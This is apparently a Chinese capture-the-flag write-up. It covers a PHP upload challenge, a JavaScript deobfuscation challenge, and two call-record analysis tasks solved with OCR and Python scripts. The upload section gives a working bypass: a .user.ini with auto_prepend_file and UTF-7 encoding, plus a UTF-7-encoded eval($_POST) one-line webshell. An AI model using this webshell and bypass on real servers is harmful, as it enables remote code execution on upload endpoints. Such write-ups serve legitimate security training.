








## web

### 奶龙牌图片处理器2.0



上传文件目录存在php文件，上传`.user.ini`绕过

> ` .user.ini`它比`.htaccess`用的更广，不管是`nginx/apache/IIS`，只要是以`fastcgi`运行的php都可以用这个方法，`php>=5.3.0`

```
auto_append_file   ; 指定一个文件，自动包含在要执行的文件前。
auto_prepend_file  ; 指定一个文件，自动包含在要执行的文件后。
```

但是有文件内容检测，需要用`UTF-7`编码绕过（过滤了`<?`,`php`）

首先上传`.user.ini`

```
zend.multibyte=1
zend.script_encoding=utf-7
auto_prepend_file=1.png
```

将一句话木马转成`UTF-7`编码

```php
<?php
echo iconv("UTF-8","UTF-7",'<?= eval($_POST[1]);');
```

上传`1.png`，内容如下：

```php
+ADw?+AD0 eval(+ACQAXw-POST+AFs-1+AF0)+ADs-
```



### 外国山海经

有个`flag.php`


查看源代码，发现存在`JS`代码，但是进行了混淆，找个在线网站就行

```php
(function(_0x5bfa63,_0x281ba4){var _0x628a90={.......}
```

http://www.esjson.com/jsGarbleEncrypt.html

```php
There is more to come
rqxvweqty，Just part of it
fshbs.php，Stitch it together
```

拼接起来就是`rqxvweqtyfshbs.php`



## 大数据

### 001

```php
和嫌疑人170****5678 通话次数最多的对方号码是哪一个？【例：flag{170****5678}】
```



附件中全部是图片，需要使用`OCR`进行识别

```python
import os
from PIL import Image
import pytesseract

# 指定Tesseract的安装路径（根据您的安装路径调整）
pytesseract.pytesseract.tesseract_cmd = r'D:\Tesseract-OCR\tesseract.exe'

# 设置图像目录
image_directory = './'  # 替换为您的图片目录路径
output_file = 'extracted_data.txt'  # 输出文本文件

# 创建或清空输出文件
with open(output_file, 'w', encoding='utf-8') as f:
    pass

# 遍历目录中的所有图像文件
for filename in os.listdir(image_directory):
    if filename.endswith('.jpg') or filename.endswith('.png') or filename.endswith('.jpeg'):  # 根据需要添加更多格式
        image_path = os.path.join(image_directory, filename)
        
        # 读取图像
        image = Image.open(image_path)
        
        # 使用OCR提取文本
        extracted_text = pytesseract.image_to_string(image, lang='chi_sim')  # 如果提取中文可以指定语言
        
        # 将提取的文本写入文件
        with open(output_file, 'a', encoding='utf-8') as f:
            f.write(f"--- {filename} ---\n")
            f.write(extracted_text)
            f.write("\n\n")

print(f"数据已提取到 {output_file} 中。")
```

提取出来的格式不太对，只需要本机，对方号码，需要将其他字符去除

然后对应一下号码

```python
# 读取提取的数据
data_file = 'extracted_data.txt'  # 替换为您的提取文本文件路径

# 初始化变量
phone_pairs = []
current_image = ""
current_phones = []
target_phone = "170****5678"  # 设定目标电话号码
target_phone_counts = {}

# 读取数据并去掉空行
with open(data_file, 'r', encoding='utf-8') as f:
    lines = f.readlines()

# 遍历每一行
for line in lines:
    line = line.strip()
    if line.startswith('---') and line.endswith('---'):  # 判断是否是分割标志
        if current_phones:  # 如果当前号码列表不为空，则处理配对
            # 进行配对
            for i in range(min(len(current_phones) // 2, 100)):  # 只取前100对
                main_phone = current_phones[i]
                corresponding_phone = current_phones[i + 100] if i + 100 < len(current_phones) else None
                if corresponding_phone:
                    phone_pairs.append(f"{main_phone} 对应 {corresponding_phone}")
                    # 统计目标电话号码对应的号码
                    if main_phone == target_phone:
                        if corresponding_phone in target_phone_counts:
                            target_phone_counts[corresponding_phone] += 1
                        else:
                            target_phone_counts[corresponding_phone] = 1

        current_image = line  # 更新当前图片标志
        current_phones = []  # 清空当前号码列表
        continue
    
    if line:  # 如果不是空行
        current_phones.append(line)  # 添加电话号码到列表中

# 处理最后一组号码（如果有的话）
if current_phones:
    for i in range(min(len(current_phones) // 2, 100)):
        main_phone = current_phones[i]
        corresponding_phone = current_phones[i + 100] if i + 100 < len(current_phones) else None
        if corresponding_phone:
            phone_pairs.append(f"{main_phone} 对应 {corresponding_phone}")
            # 统计目标电话号码对应的号码
            if main_phone == target_phone:
                if corresponding_phone in target_phone_counts:
                    target_phone_counts[corresponding_phone] += 1
                else:
                    target_phone_counts[corresponding_phone] = 1

# 输出配对结果到文件
output_file = 'phone_pairs.txt'  # 输出文件名，可以根据需要修改
with open(output_file, 'w', encoding='utf-8') as f:
    for pair in phone_pairs:
        f.write(pair + '\n')

# 输出目标电话号码对应的号码及其出现次数
count_output_file = 'target_phone_counts.txt'  # 统计结果输出文件名
with open(count_output_file, 'w', encoding='utf-8') as f:
    f.write(f"与 {target_phone} 对应的号码及其出现次数:\n")
    for phone, count in target_phone_counts.items():
        f.write(f"{phone}: {count} 次\n")

print(f"电话号码配对结果已保存到 {output_file} 中。")
print(f"与 {target_phone} 对应的号码及其出现次数已保存到 {count_output_file} 中。")
```




```
133****0181: 405 次
```

### 002

```
请问和已知的 6 位嫌疑人都有过通话关系的对方号码有哪些？【若有多个号码，手机号码之间用"-"连接，并将号码由小至大列出，例：flag{1705678-1705678-170****5678...}】
```

统计每个嫌疑人的电话号码的对应的号码，生成几个文件



内容：



写个脚本，将与 6 位嫌疑人都有过通话关系的对方号码提取出来

```python
import os
import re

# 文件列表，替换为您的6个文件的路径
file_list = [
    '1352345.txt',  # 替换为您的文件名
    '1387383.txt',
    '1539888.txt',
    '1557991.txt',
    '1570947.txt',
    '1705678.txt'
]

# 初始化一个列表用于存储每个文件中的电话号码集合
phone_sets = []

# 正则表达式，用于匹配电话号码
phone_pattern = re.compile(r'(\d{3}\*\*\*\*\d{4})')

# 读取每个文件并提取电话号码
for file_name in file_list:
    if os.path.exists(file_name):
        with open(file_name, 'r', encoding='utf-8') as f:
            phones = set()  # 使用集合去重
            for line in f:
                match = phone_pattern.findall(line)  # 查找匹配的电话号码
                if match:
                    phones.update(match)  # 将找到的号码添加到集合中
            phone_sets.append(phones)
    else:
        print(f"文件 {file_name} 不存在。")

# 找出所有文件中都存在的电话号码
if phone_sets:
    common_phones = set.intersection(*phone_sets)

    # 输出结果到文件
    output_file = 'common_phones.txt'  # 输出文件名
    with open(output_file, 'w', encoding='utf-8') as f:
        if common_phones:
            for phone in common_phones:
                f.write(phone + '\n')
            print(f"在所有文件中都存在的电话号码已保存到 {output_file} 中。")
        else:
            print("没有在所有文件中都存在的电话号码。")
else:
    print("没有有效的文件进行处理。")
```



```
158****6074
```

